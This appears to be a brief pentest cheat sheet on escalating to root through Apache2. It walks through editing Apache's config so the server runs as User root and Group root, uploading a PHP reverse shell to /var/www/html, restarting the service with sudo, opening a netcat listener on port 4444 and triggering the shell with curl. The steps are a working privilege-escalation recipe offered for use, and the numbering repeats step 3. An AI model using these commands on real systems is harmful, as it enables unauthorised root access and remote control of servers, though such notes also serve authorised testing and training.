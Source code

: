 # Apache2 Privilege Escalation

## Requirements: User can restart the apache2 server as root.

    sudo /bin/systemctl restart apache2

### 1) Check for misconfigurations on apache configuration files

Location

    /etc/apache2/apache.conf

### 2) If you have write access on the file, change the name and group of the user that runs the apache service to root (or any other legitimate user).

    # These need to be set in /etc/apache2/envars
    User root
    Group root

### 3) Upload a reverse shell to activate it as the user we changed on the config file upon restarting.

Upload to:

    /var/www/html/reverse-shell.php

### 3) Restart apache

    sudo /bin/systemctl restart apache2

### 4) Setup listener

    nc -lnvp 4444

### 5) Get your shell

    curl http://domain.local/reverse-shell.php

